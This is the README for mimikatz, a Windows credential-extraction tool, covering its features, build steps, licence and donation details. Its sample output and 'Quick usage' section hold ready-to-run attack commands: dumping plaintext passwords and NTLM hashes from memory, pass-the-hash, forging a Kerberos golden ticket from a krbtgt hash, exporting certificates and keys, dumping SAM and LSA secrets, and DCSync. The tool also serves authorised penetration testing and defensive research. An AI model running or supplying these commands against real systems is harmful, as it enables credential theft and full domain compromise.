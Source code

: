 mimikatz mimikatz is a tool Ive made to learn C and make somes experiments with Windows security. Its now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets. `` .#####. mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr 6 2014 22:02:03) .## ^ ##. ## / \ ## /* * * ## \ / ## Benjamin DELPYgentilkiwi` ( benjamin@gentilkiwi.com ) ## v ## http://blog.gentilkiwi.com/mimikatz (oe.eo) ##### with 13 modules * / mimikatz # privilege::debug Privilege 20 OK mimikatz # sekurlsa::logonpasswords Authentication Id : 0 ; 515764 (00000000:0007deb4) Session : Interactive from 2 User Name : Gentil Kiwi Domain : vm-w7-ult-x SID : S-1-5-21-1982681256-1210654043-1600862990-1000 msv : [00000003] Primary * Username : Gentil Kiwi * Domain : vm-w7-ult-x * LM : d0e9aee149655a6075e4540af1f22d3b * NTLM : cc36cf7a8514893efccd332446158b1a * SHA1 : a299912f3dc7cf0023aef8e4361abfc03e9a8c30 tspkg : * Username : Gentil Kiwi * Domain : vm-w7-ult-x * Password : waza1234/ ... `` But thats not all!Crypto,Terminal Server,Events`, ... lots of informations in the GitHub Wiki https://github.com/gentilkiwi/mimikatz/wiki or on http://blog.gentilkiwi.com (in French, yes). If you dont want to build it, binaries are availables on https://github.com/gentilkiwi/mimikatz/releases Quick usage log privilege::debug sekurlsa ``` sekurlsa::logonpasswords sekurlsa::tickets /export sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd ``` kerberos ``` kerberos::list /export kerberos::ptt c:\chocolate.kirbi kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi ``` crypto ``` crypto::capi crypto::cng crypto::certificates /export crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE crypto::keys /export crypto::keys /machine /export ``` vault & lsadump ``` vault::cred vault::list token::elevate vault::cred vault::list lsadump::sam lsadump::secrets lsadump::cache token::revert lsadump::dcsync /user:domain\krbtgt /domain:lab.local ``` Build mimikatz is in the form of a Visual Studio Solution and a WinDDK driver (optional for main operations), so prerequisites are: for mimikatz and mimilib : Visual Studio 2010, 2012 or 2013 for Desktop (2013 Express for Desktop is free and supports x86 & x64 - http://www.microsoft.com/download/details.aspx?id=44914) for mimikatz driver, mimilove (and ddk2003 platform) : Windows Driver Kit 7.1 (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800 mimikatz uses SVN for source control, but is now available with GIT too! You can use any tools you want to sync, even incorporated GIT in Visual Studio 2013 =) Synchronize! GIT URL is : https://github.com/gentilkiwi/mimikatz.git SVN URL is : https://github.com/gentilkiwi/mimikatz/trunk ZIP file is : https://github.com/gentilkiwi/mimikatz/archive/master.zip Build the solution After opening the solution, Build / Build Solution (you can change architecture) mimikatz is now built and ready to be used! (Win32 / x64) you can have error MSB3073 about _build_.cmd and mimidrv, its because the driver cannot be build without Windows Driver Kit 7.1 (WinDDK), but mimikatz and mimilib are OK. ddk2003 With this optional MSBuild platform, you can use the WinDDK build tools, and the default msvcrt runtime (smaller binaries, no dependencies) For this optional platform, Windows Driver Kit 7.1 (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800 and Visual Studio 2010 are mandatory, even if you plan to use Visual Studio 2012 or 2013 after. Follow instructions: http://blog.gentilkiwi.com/programmation/executables-runtime-defaut-systeme http://blog.gentilkiwi.com/cryptographie/api-systemfunction-windows#winheader Licence CC BY 4.0 licence - https://creativecommons.org/licenses/by/4.0/ mimikatz needs coffee to be developed: ETH: 0x3a56af999b5e68f9e6e0a7dce1833efefad5b470 BTC: 1C6bubazp9xq3BfYiHvsqP1sEhFYykUDo5 * PayPal: https://www.paypal.me/delpy/ Author Benjamin DELPY gentilkiwi, you can contact me on Twitter ( @gentilkiwi ) or by mail ( benjamin [at] gentilkiwi.com ) DCSync function in lsadump module was co-writed with Vincent LE TOUX, you can contact him by mail ( vincent.letoux [at] gmail.com ) or visit his website ( http://www.mysmartlogon.com ) This is a personal development, please respect its philosophy and dont use it for bad things!